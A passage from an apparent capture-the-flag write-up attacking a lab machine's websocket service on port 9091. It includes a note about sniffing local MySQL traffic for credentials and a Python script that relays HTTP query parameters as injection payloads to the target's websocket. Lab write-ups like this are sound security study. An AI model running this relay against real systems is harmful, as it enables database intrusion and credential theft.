 > 💡 Note to self:
> Could I eavesdrop on the connection from **9091** to MySQL on **3306** (or **33060**)?
> If a new connection is formed for every DB transaction, might be able to grab the connection string that way. Since it's local, that communication is unlikely to be encrypted. I'll check this out later.

I modified the code on that page to take the websocket **server address** (10.10.11.194:9091) and websocket request **parameter** ('id') as arguments. In essence, this script stands up a python webserver on my attacker box, which will take in requests via http then relay them to the target's websocket server. My modified version of that code is shown below:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection
import sys

def send_ws(payload, serveraddr, param_name):
	ws_server = f'ws://{serveraddr}'
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"%s":"%s"}' % (param_name, message)

	print(f'Sending {data}')

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port, server_addr, parameter, content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False

			if payload:
				content = send_ws(payload, server_addr, parameter)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
```